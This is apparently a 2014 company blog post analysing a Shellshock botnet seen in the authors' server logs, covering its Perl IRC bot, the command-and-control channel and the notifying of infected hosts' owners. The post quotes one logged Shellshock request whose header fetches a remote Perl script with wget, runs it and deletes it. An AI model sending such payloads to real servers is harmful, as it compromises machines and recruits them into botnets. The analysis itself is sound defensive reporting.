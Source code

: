 ```yaml
---
layout: post
title: Anatomy of a Shellshock botnet
date: '2014-10-23T15:10:00+03:00'
tags:
- shellshock
- cloud computing
- botnet
tumblr_url: https://blog.mist.io/post/100582053116/anatomy-of-a-shellshock-botnet
---
```

[Shellshock](http://en.wikipedia.org/wiki/Shellshock_(software_bug)) (aka Bashdoor) is a family of security vulnerabilities disclosed on September 24 that affected the very popular Bash shell. The first bug discovered, caused Bash to unintentionally execute commands when they were concatenated to the end of function definitions stored in the values of environment variables. Within days of the publication of this, intense scrutiny of the underlying design flaws discovered a variety of related vulnerabilities, which were addressed with a series of patches.

![image](/images/tumblr-images/tumblr_inline_ndw0crN1zB1rgqrs8.jpg)

_(image by&nbsp;[Aaron Kondziela](http://aaronkondziela.com/2014/09/shellshock-logo-for-bash-vulnerability/) under&nbsp;CC BY 4.0)_

Attackers exploited Shellshock within hours of the initial disclosure by creating botnets of compromised computers to perform distributed denial-of-service attacks and vulnerability scanning. Our business is server management and monitoring, so naturally we were bound to witness some of these attacks.

Of course, our own servers were patched within hours of the announcement. That, however, didn’t stop people from launching the attacks. We take security very seriously and every exception that happens in Mist.io is documented and sent to our security team. On September 29, we started seeing several “HTTPNotFound: /cgi-bin/bash” exceptions and although our servers were patched, we decided to look into it and try to figure out what the attack plan was.

This is what we were looking at:

    Sep 29 2014, 20:18 UTC
    HTTP GET (from 174.143.168.121)
    path_info: /cgi-bin/bash
    user_agent: () { :;}; /bin/bash -c "wget ellrich.com/legend.txt -O  /tmp/.apache;killall -9 perl;perl /tmp/.apache;rm -rf /tmp/.apache"

Naturally, our first step was to take a look at that legend.txt script. Well, it turns out it was a [perl script](http://pastebin.com/MRb25xsc) used to scan for vulnerabilities and connect the compromised server to a command and control IRC server.&nbsp;Eventually, it tries to set up a SOCKS5 server (mocks) and if it succeeds, it sends the connection url via a private message in IRC.

Next step was to connect to that IRC server. At the time, 272 infected servers were connected to the IRC #apache channel with nicks like APACHE-4366394. There were 3 admins online, one of them using the very unique and modest nickname “god”. We chased the IP addresses of the admins, but as expected that did not yield any significant results. The IRC server’s IP originated in a Slicehost pool, and soon enough, that server was going down.

As the compromised servers were connected directly to the IRC server, we decided to collect their IP addresses, try to find their respective owners and inform them that their servers have been compromised.

Being the only non-bot users on that IRC channel, the operator kept kicking and banning us. Well, kick banning did not work in the 90’s, it sure wasn’t going to work now. After collecting the infected IPs, we started doing reverse lookups. Fortunattely, none of the IPs seemed to be [high-profile targets like Yahoo](http://www.futuresouth.us/wordpress/?p=5).

In the end of the day, we informed the hosting companies and eventually got to some of the owners. At least our efforts did not go in vain. Overall, it seemed like a pretty standard type of attack that would have been prevented if the compromised servers had been properly patched. Keep in mind that it had already been five days since the disclosure of Shellshock and it was featured in all major news networks.

Even if your server’s data are not important or it is a test server that you don’t care about, leaving it unpatched can make it part of a larger DDOS attack. Keeping your machines updated is crucial in fighting off the creation and expansion of malicious botnets.

**Do you have machines across clouds and want to easily manage them?&nbsp;[Sign up for Mist.io and try it for free!](https://mist.io/)**

